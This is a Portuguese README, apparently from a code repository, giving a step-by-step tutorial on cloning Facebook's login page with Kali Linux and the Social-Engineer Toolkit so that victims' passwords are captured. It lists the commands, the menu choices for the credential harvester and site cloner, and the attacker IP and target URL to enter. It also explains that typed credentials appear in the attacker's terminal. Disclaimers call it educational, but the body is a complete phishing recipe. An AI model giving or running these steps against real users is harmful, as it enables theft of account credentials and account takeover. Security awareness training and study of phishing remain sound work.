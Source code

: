 # Phishing para Captura de Senhas do Facebook

## Introdução

Este README descreve um projeto de demonstração de segurança cibernética que utiliza técnicas de phishing para capturar senhas do Facebook. **Este tutorial é estritamente educacional. A realização de ataques de phishing é ilegal e antiética. Utilize estas informações apenas para aprimorar suas habilidades de segurança cibernética de maneira ética.**

## Ferramentas Utilizadas

- **Kali Linux**: Distribuição Linux projetada para testes de penetração.
- **SET (Social-Engineer Toolkit)**: Ferramenta usada para realizar ataques de engenharia social.

## Passo a Passo

### 1. Acesso Root

Primeiro, precisamos de acesso root no Kali Linux para executar as ferramentas necessárias:

```bash
sudo su
```

### 2. Iniciando o SET

Inicie o Social-Engineer Toolkit no terminal:

```bash
setoolkit
```

### 3. Selecionando o Tipo de Ataque

Selecione o tipo de ataque que deseja realizar. Neste caso, escolhemos "Social-Engineering Attacks":

```plaintext
1) Social-Engineering Attacks
```

### 4. Selecionando o Vetor de Ataque

Escolha o vetor de ataque "Web Site Attack Vectors":

```plaintext
2) Web Site Attack Vectors
```

### 5. Selecionando o Método de Ataque

Escolha o método "Credential Harvester Attack Method":

```plaintext
3) Credential Harvester Attack Method
```

### 6. Selecionando o Método Específico de Ataque

Escolha a opção "Site Cloner":

```plaintext
2) Site Cloner
```

### 7. Obtendo o Endereço IP da Máquina

Antes de continuar, precisamos obter o endereço IP da máquina para configurar o servidor de phishing. Use o comando `ifconfig`:

```bash
ifconfig
```

Anote o endereço IP exibido (por exemplo, `192.168.1.100`).

### 8. Clonando o Site

O SET solicitará o endereço IP da sua máquina e a URL que deseja clonar. Digite o endereço IP obtido e a URL do Facebook:

```plaintext
[IP address for the POST back in Harvester/Tabnabbing] (ex. http://192.168.1.5): http://192.168.1.100
Enter the url to clone: http://www.facebook.com
```

### 9. Configurando o Servidor de Phishing

Após inserir as informações, o SET clonará o site do Facebook e configurará um servidor de phishing local. Qualquer pessoa que acessar o endereço IP da sua máquina será redirecionada para a página clonada do Facebook. Quando a vítima inserir suas credenciais, elas serão capturadas e exibidas no terminal.

### 10. Captura de Credenciais

Quando a vítima digitar suas credenciais na página clonada, elas serão enviadas para o seu servidor e armazenadas. Você pode visualizar as credenciais capturadas no terminal onde o SET está sendo executado.

![Alt text](./passwd.png "Captura de tela das credenciais capturadas")

## Descobertas e Conclusão

Ao seguir os passos acima, conseguimos clonar o site do Facebook e configurar um servidor de phishing que captura as credenciais dos usuários. Esta experiência demonstrou a eficácia e a simplicidade das técnicas de phishing, enfatizando a importância de práticas de segurança robustas e conscientização sobre engenharia social.

---

**Atenção:** A execução de ataques de phishing é ilegal e antiética. Este guia é destinado apenas para fins educacionais e para aumentar a conscientização sobre a importância da segurança da informação. Utilize este conhecimento de forma responsável e ética.

## Recursos Adicionais

- [Documentação do Kali Linux](https://www.kali.org/docs/)
- [Documentação do SET (Social-Engineer Toolkit)](https://github.com/trustedsec/social-engineer-toolkit)

---

Por favor, use este conhecimento de forma responsável e ética para proteger e educar os outros sobre os perigos dos ataques de phishing.
